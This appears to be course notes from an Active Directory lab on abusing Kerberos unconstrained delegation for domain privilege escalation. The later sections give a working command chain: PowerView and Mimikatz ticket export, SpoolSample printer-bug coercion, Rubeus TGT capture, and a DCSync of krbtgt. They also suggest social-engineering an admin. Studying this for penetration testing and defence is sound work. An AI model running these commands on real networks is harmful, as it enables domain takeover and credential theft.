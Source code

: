 # Domain Privilege Escalation - Delegations

- [Domain Privilege Escalation - Delegations](#domain-privilege-escalation---delegations)
  - [Kerberos Delegation](#kerberos-delegation)
  - [Unconstrained Delegation](#unconstrained-delegation)
  - [Leveraging Unconstrained Delegation](#leveraging-unconstrained-delegation)
  - [Printer Bug](#printer-bug)

----

## Kerberos Delegation

Kerberos Delegation allows to "*reuse the end-user credentials to access resources hosted on a different server*". This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.

For example, a user authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user (impersonation) and not as the web server's service account.

Please note that, for the above example, **the service account for web service must be trusted for delegation** to be able to make requests as a user.

There are two types of Kerberos Delegation:

1. **General/Basic** or **Unconstrained Delegation** which allows the first hop server (web server in our example) to **request access to any service on any computer in the domain**.<br/>
2. **Constrained Delegation** which allows the first hop server (web server in our example) to request access **only to specified services on specified computers**.

<br/>

## Unconstrained Delegation

![picture 40](images/7c264278d9152e03ee5463b5f21a9991e9d4e49621f771068c2067791f1bbe2a.png)  

1. A user provides credentials to the Domain Controller. 
2. The DC returns a TGT. 
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS. 
5. The user sends the TGT and TGS to the web server. 
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

<br/>

When unconstrained delegation is enabled, **the DC places user's TGT inside TGS** (Step 4 in the previous diagram). 

When presented to the server with unconstrained delegation, **the TGT is extracted from TGS and stored in LSASS**. This way the server can reuse the user's TGT to access any other resource as the user.

This could be used to escalate privileges in case **we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine**.

<br/>

![picture 41](images/5b096f586226c250380adffac2c4cb0f60e4f0d6221d73da29bb9804185450a0.png)  

<br/>

## Leveraging Unconstrained Delegation

Discover domain computers which have unconstrained delegation enabled.

- PowerView

```
Get-DomainComputer -UnConstrained
```

- AD Module

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

```
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

<br/>

Compromise the server(s) where Unconstrained delegation is enabled. We must **`trick`** a domain admin or other high privilege user to connect to a service on us-web.

After the connection, we can export TGTs using the below command:

```
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

The ticket could be reused:

```
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

<br/>

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Social Engineering way!

![picture 42](images/b1d8c5f21d28197255c9f72d2d3d0f405a6737d771aa728ab9967f35fbecc88f.png)  

<br/>

## Printer Bug

![picture 43](images/9f6c90efda5fd1eda724495f467277fe9d8b005e2428d067bae9cc1648d2a1db.png)  

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!

A feature of **MS-RPRN** which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

Abusing Printer Bug (yes the attacker is wearing a Balaclava :P)

![picture 44](images/b1823cb42d9679aaf6922a5e02e74c8e8d920b44985538fbc235fa5086c73b9d.png)  

<br/>

Let's use **MS-RPRN.exe** (https://github.com/leechristensen/SpoolSample) on `usweb`:

```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

<br/>

We can capture the TGT of `us-dc$` by using `Rubeus` (https://github.com/GhostPack/Rubeus) on `us-web`:

```
.\Rubeus.exe monitor /interval:5
```

<br/>

Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine:

```
.\Rubeus.exe ptt /ticket:<>
```

Or you can use `Invoke-Mimikatz`:

```
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi", [Convert]::FromBase64String("ticket_from_Rubeus_monitor"))

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

<br/>

Then run DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

